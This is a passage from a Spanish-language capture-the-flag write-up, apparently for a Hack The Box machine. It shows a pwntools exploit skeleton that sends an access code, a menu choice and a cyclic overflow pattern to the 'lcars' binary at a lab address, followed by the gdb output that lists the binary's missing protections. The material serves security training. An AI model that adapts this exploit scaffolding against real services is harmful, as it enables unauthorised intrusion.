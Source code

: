 Bien, el programa esta esperando el input donde encontramos el **Segmentation Fault**, por lo tanto sera donde enviaremos nuestro payload:

```py
#!/usr/bin/python3

import sys
from pwn import *

elf = context.binary = ELF(sys.argv[1])
context.terminal = ['tmux', 'splitw', '-h']

def start():
    if args.GDB:
        return gdb.debug(sys.argv[1])
    if args.REMOTE:
        return remote('10.10.10.61', 32812)
    else:
        return process(sys.argv[1])

r = start()
# ======================= Aca ta la magia ========================

payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac"

r.sendlineafter("Enter Bridge Access Code:", "picarda1")
r.sendlineafter("Waiting for input:", "4")
r.sendlineafter("Enter Security Override:", payload)

# ===================== Aca termina la magia ====================
r.interactive()
```

* [Writing exploits with **pwntools**](https://tc.gts3.org/cs6265/2019/tut/tut03-02-pwntools.html).

**(Ya hablaremos de las protecciones del binario)**

Ejecutemos pero veamos el debug con **gdb** de una vez:

```bash
❭ python3 exploit.py ./lcars GDB
[*] '/sec/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Starting local process '/usr/bin/gdbserver': pid 907075
[*] running in new terminal: /usr/bin/gdb -q  "./lcars" -x /tmp/pwn4qa4544z.gdb
```
